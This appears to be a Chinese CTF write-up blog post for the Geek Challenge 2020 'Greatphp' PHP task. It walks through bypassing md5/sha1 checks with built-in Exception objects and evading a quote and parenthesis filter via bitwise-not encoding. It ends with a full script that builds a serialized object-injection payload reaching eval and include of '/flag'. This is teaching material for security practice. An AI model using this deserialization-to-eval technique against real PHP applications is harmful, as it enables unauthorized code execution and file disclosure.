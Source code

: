 ```yaml
---
title: '[极客大挑战 2020]Greatphp'
date: 2024-07-25 18:06:21
tags: php特性
categories: 刷题笔记
---
```


## [极客大挑战 2020]Greatphp（php内置类）

我们审计代码

```
<?php
error_reporting(0);
class SYCLOVER {
    public $syc;
    public $lover;

    public function __wakeup(){
        if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) ){
           if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
               eval($this->syc);
           } else {
               die("Try Hard !!");
           }
           
        }
    }
}

if (isset($_GET['great'])){
    unserialize($_GET['great']);
} else {
    highlight_file(__FILE__);
}

?>
```

一般来说，我们要绕过if语句的md5和sh1是用数组绕过的，但由于还要eval传递的值，所以我们就不能用数组绕过

所以，我们考虑php中的内置类，也就是原生类

<!--more-->

```
Error：用于PHP7、8，开启报错。

Exceotion：用于PHP5、7、8，开启报错。会自动调用__tostring
```

Error是所有php内部错误类的基类，该类是在php7.0.0中开始引入的

php7中，可以在echo时触发__tostring,来构造xss

所以我们可以使用含有\__tostring方法的php内置类来绕过，用的两个比较多的内置类 Exception 和 Error ，他们之中有一个 __toString 方法，当类被当做字符串处理时，就会调用这个函数

我们以Eror为例进行实验

![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/45a0c9db33ceb334629e7946532f4d16.png)

我们发现以字符串形式输出了当前报错，包含当前报错信息以及当前报错的行号，而传入 Error(“payload”,1) 中的错误代码“1”则没有输出出来

那怎么绕过md5和sha1

![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/7a9e09c63cfa997b6ce6593216a54845.png)

可见$a和\$b这两个对象本身是不同的，但是__tostring返回的结果是一样的，这里之所以要在一行，因为\_\_tostring返回的结果包含当前行号

Exception 类与 Error 的使用和结果完全一样，只不过 Exception 类适用于PHP 5和7，而 Error 只适用于 PHP 7

我们可以将题目代码中的 \$syc 和 $lover 分别声明为类似上面的内置类的对象，让这两个对象本身不同（传入的错误代码即可），但是 __toString 方法输出的结果相同即可

由于题目用preg_match过滤了小括号无法调用函数，所以我们尝试直接 include "/flag" 将flag包含进来即可；由于过滤了引号，我们直接用url取反绕过即可

构造pop链

```
<?php

class SYCLOVER {
    public $syc;
    public $lover;
    public function __wakeup(){
        if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) ){
            if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
                eval($this->syc);
            } else {
                die("Try Hard !!");
            }

        }
    }
}

$str = "?><?=include~".urldecode("%D0%99%93%9E%98")."?>";
/*
或使用[~(取反)][!%FF]的形式，
即: $str = "?><?=include[~".urldecode("%D0%99%93%9E%98")."][!.urldecode("%FF")."]?>";
 
$str = "?><?=include $_GET[_]?>";
*/
$a=new Exception($str,1);$b=new Exception($str,2);
$c = new SYCLOVER();
$c->syc = $a;
$c->lover = $b;
echo(urlencode(serialize($c)));

?>

```

得到flag

![image-20240725184806934](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202407251848190.png)
